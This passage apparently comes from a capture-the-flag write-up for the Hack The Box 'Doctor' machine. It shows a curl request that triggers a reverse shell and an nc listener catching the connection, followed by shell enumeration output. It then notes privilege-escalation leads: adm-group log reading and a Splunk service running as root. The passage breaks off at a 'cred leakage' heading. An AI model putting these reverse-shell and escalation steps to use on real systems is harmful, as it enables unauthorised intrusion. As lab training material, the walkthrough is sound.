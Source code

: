 - `curl http://doctors.htb/archive` -> trigger rshell

```console
└─╼$ sudo rlwrap nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.10.14.14] from (UNKNOWN) [10.10.10.209] 40618
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=1001(web) gid=1001(web) groups=1001(web),4(adm)
$ uname -a
Linux doctor 5.4.0-42-generic #46-Ubuntu SMP Fri Jul 10 00:24:02 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
$ ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host
       valid_lft forever preferred_lft forever
2: ens160: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc mq state UP group default qlen 1000
    link/ether 00:50:56:b9:92:84 brd ff:ff:ff:ff:ff:ff
    inet 10.10.10.209/24 brd 10.10.10.255 scope global ens160
       valid_lft forever preferred_lft forever
    inet6 dead:beef::250:56ff:feb9:9284/64 scope global dynamic mngtmpaddr
       valid_lft 86397sec preferred_lft 14397sec
    inet6 fe80::250:56ff:feb9:9284/64 scope link
       valid_lft forever preferred_lft forever
```

## Privilege Escalation

### web -> shaun

**enum**

1. `id` -> group adm -> capability of reading log files `/var/log`

```console
╔══════════╣ Analyzing Interesting logs Files (limit 70)
-rw-r----- 1 root adm 21645460 Jan 25 15:10 /var/log/apache2/access.log
-rw-r----- 1 root adm 421 Jan 25 15:05 /var/log/apache2/error.log
```

2. splunk service: with root priv

```console
shaun@doctor:/opt/splunkforwarder/etc/users$ ps aux | grep -i splunk                      ps aux | grep -i splunk
root        1133  0.1  2.1 257468 85516 ?        Sl   14:36   0:04 splunkd -p 8089 start
root        1135  0.0  0.3  77664 13288 ?        Ss   14:36   0:00 [splunkd pid=1133] splunkd -p 8089 start [process-runner]
shaun     255710  0.0  0.0  17664  2780 pts/0    S+   15:41   0:00 grep --color=auto -i splunk
```

**cred leakage**
